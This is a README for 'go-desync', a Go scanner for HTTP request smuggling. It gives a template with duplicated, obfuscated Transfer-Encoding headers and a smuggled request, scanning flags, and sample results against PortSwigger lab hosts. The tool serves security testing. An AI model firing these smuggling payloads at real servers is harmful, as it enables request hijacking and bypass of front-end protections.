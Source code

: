 # go-desync
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Example template:
```
Match: Unrecognized method GPOST
Request: |+
  POST {{.Path}} HTTP/1.1
  Host: {{.Host}}
  Content-Type: application/x-www-form-urlencoded
  Content-length: 4
  Transfer-Encoding: chunked
  Transfer-encoding: cow

  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15

  x=1
  0


```

Usage:
```
$ go-desync -h
Usage of go-desync:
  -header string
    	Custom header to add to requests, example: '-header "User-Agent: garlic0x1"'
  -proxy string
    	Set the environment proxy, for example: http://example.com:8080
  -templates string
    	Directory of YAML templates to test (default "templates/")
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -tries int
    	Number of requests to send to test each template (default 5)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ go-desync -urls targets.test 
https://ace01f7b1ead19f2c0064c7300d500e6.web-security-academy.net/ is vulnerable, payload: templates/clte.yaml
https://ace01f7b1ead19f2c0064c7300d500e6.web-security-academy.net/ is vulnerable, payload: templates/diffclte.yaml
https://accb1f2b1ff036edc0495a6d00cf00be.web-security-academy.net/ is vulnerable, payload: templates/obfuscateTE.yaml
https://accb1f2b1ff036edc0495a6d00cf00be.web-security-academy.net/ is vulnerable, payload: templates/tecl.yaml
```
